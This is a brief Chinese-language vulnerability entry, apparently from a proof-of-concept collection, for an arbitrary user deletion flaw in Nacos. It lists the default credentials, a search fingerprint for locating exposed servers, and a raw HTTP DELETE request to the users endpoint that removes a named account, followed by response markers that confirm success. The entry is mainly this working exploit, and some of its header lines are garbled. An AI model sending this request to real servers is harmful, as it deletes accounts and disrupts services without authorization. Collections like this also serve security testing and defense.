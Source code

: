 ﻿# Nacos 任意用户删除漏洞

> 更新时间：2024-04-19

> 漏洞编号：

> 漏洞说明：默认密码nacos nacos

> 漏洞特征：app="nacos"

> 验证脚本：HTTP

```
DELETE /nacos/v1/auth/users?username=dudesite HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml:q=0.9,image/avif,image/webp.*/*:q=0.8
Accept-Language:zh-CN,zh;q=0.8,zh-TW:q=0.7,zh-HK;q=0.5.en-US:q=0.3.en:q=0.2
Accept-Encoding: gzip, deflate
Comnection: close
Upgrade-Insecure-Requests: 1

```

> 响应代码特征：200

> 响应内容特征：delete

> 上传文件定位：

> 验证文件来源：Nacos 任意用户删除漏洞.poc

